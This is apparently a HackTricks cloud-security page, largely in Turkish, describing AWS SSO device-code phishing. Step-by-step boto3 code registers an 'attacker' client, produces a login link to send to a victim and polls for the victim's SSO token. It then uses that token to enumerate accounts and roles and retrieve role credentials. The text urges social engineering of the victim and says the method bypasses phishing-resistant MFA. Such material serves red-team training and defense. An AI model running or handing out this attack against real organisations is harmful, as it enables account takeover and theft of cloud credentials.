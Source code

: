 # AWS - Identity Center & SSO Yetkisiz Enum

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## AWS Cihaz Kodu Phishing

[**bu blog yazısında**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/) ilk olarak önerildiği gibi, AWS SSO kullanarak bir kullanıcıya **bağlantı** göndermek mümkündür; eğer **kullanıcı kabul ederse**, saldırgan **kullanıcıyı taklit etmek için bir token** alabilir ve kullanıcının **Identity Center**'da erişebileceği tüm rollere erişebilir.

Bu saldırıyı gerçekleştirmek için gereksinimler şunlardır:

* Kurbanın **Identity Center** kullanması gerekir
* Saldırgan, kurbanın kullandığı **alt alan adını** bilmelidir `<victimsub>.awsapps.com/start`

Sadece önceki bilgilerle, **saldırgan kullanıcıya bir bağlantı gönderebilir**; eğer **kabul edilirse**, **saldırgana AWS kullanıcı** hesabına erişim verecektir.

### Saldırı

1. **Alt alan adını bulma**

Saldırganın ilk adımı, kurban şirketinin Identity Center'da kullandığı alt alan adını bulmaktır. Bu, **OSINT** veya **tahmin + BF** ile yapılabilir, çünkü çoğu şirket burada adını veya adının bir varyasyonunu kullanacaktır.

Bu bilgiyle, Identity Center'ın yapılandırıldığı bölgeyi almak mümkündür:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Kurban için bağlantıyı oluşturun ve gönderin**

Kurbanın kimlik doğrulaması yapabilmesi için bir AWS SSO giriş bağlantısı oluşturmak üzere aşağıdaki kodu çalıştırın.\
Demo için, bu kodu bir python konsolunda çalıştırın ve çıkmayın çünkü daha sonra token almak için bazı nesnelere ihtiyacınız olacak:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Gönderilen bağlantıyı kurbanın dikkatini çekmek için harika sosyal mühendislik becerilerinizi kullanarak iletin!

3. **Kurbanın kabul etmesini bekleyin**

Eğer kurban **zaten AWS'de oturum açmışsa**, sadece izinleri vermeyi kabul etmesi gerekecek; eğer oturum açmamışsa, **giriş yapması ve ardından izinleri vermeyi kabul etmesi** gerekecek.\
Bu, günümüzdeki istemin görünümü:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSO erişim token'ını alın**

Eğer kurban istemi kabul ettiyse, **kullanıcıyı taklit ederek bir SSO token'ı oluşturmak için bu kodu çalıştırın**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO erişim belirteci **8 saat geçerlidir**.

5. **Kullanıcıyı taklit et**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Önceki saldırının **"unphisable MFA" (webAuth) kullanılsa bile çalıştığını** bilmek eğlenceli. Bunun nedeni, önceki **iş akışının kullanılan OAuth alanını asla terk etmemesidir**. Kullanıcının giriş alanını değiştirmesi gereken diğer phishing saldırılarının aksine, cihaz kodu iş akışı, **bir cihaz tarafından bilinen bir kodun** hazırlandığı bir durumdur ve kullanıcı farklı bir makinede bile giriş yapabilir. İstemi kabul ederse, cihaz, sadece **ilk kodu bilerek**, kullanıcının **kimlik bilgilerini** **geri alabilecektir**.

Daha fazla bilgi için [**bu gönderiye göz atın**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
